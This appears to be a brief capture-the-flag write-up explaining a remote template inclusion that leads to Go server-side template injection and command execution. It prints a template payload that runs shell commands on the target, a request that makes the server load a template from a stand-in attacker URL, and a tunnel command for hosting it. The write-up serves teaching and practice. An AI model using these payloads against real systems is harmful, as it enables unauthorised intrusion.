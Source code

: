 # RTI > SSTI > RCE 

## Website 

<img src= /renderquest.PNG>

## Description

So, the functionality of the seems to load and render templates either locally or remotely, depending on the ?use_remote= parameter. This leads me to want to check for SSTI vulnerability from the go file I gave you lied in the ability to load templates from any url that would be executed on the backend. I was able to set up a test.go file on my server with the contents {{.FetchServerInfo "cd /;ls -la"}}. Once the server loaded my go file it executed the specified commands on the server. Just for context this is a CTF. What type of vulnerabilities were displayed here?.

## Set Up

1. Burpsuite Repeater/collaborator(Testing): GET requests to /render?use_remote=true&page=https://ATTACKER_URL/test.go.
2. Apache2 server hosting test.go).
3. Setup file with SSTI payload:
   ```go
    {{.FetchServerInfo "cd /;ls -la"}}
5. Tunnel using `ssh -R 80:localhost:80 localhost.run -i /home/$user/.ssh/id_rsa`.

## Exploit

This Python script automates the exploitation of a server-side template injection (SSTI) vulnerability in a web application. It sends a GET request to a specified vulnerable URL, loading and executing an attacker-controlled template on the target server, resulting in remote code execution.

## More Information

[Host Header Attacks](https://portswigger.net/web-security/host-header)

